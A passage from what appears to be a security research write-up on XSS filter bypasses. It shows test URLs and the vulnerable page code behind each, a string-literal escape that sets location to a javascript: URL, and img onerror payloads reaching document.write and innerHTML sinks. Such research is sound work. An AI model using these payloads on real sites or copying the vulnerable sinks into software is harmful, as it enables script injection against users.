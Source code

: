 supplement:

Previously there was a blocking condition for string literals. Although it still partially remains, assignments to obviously attackable, which were previously blocked, `location`are allowed, and there is almost no protection. It doesn't look like it's going to provide protection anymore, so I've categorized it as non-blocking rather than bypass.

[https://vulnerabledoma.in/bypass/str_literal?q=%22%3Blocation='javascript\x3Aalert\x281\x29'//](https://vulnerabledoma.in/bypass/str_literal?q="%3Blocation='javascript\x3Aalert\x281\x29'//)

```
<script>var q="";location='javascript\x3Aalert\x281\x29'//"</script>
```

### All DOM based XSS

[https://vulnerabledoma.in/bypass/dom_docwrite#%3Cimg%20src=x%20onerror=alert(1)%3E](https://vulnerabledoma.in/bypass/dom_docwrite#)

```
<script>
hash=location.hash.slice(1);
document.write(decodeURIComponent(hash));
</script>
```

[https://vulnerabledoma.in/bypass/dom_innerhtml#%3Cimg%20src=x%20onerror=alert(1)%3E](https://vulnerabledoma.in/bypass/dom_innerhtml#)

```
<body>
<script>
hash=location.hash.slice(1);
document.body.innerHTML=decodeURIComponent(hash);
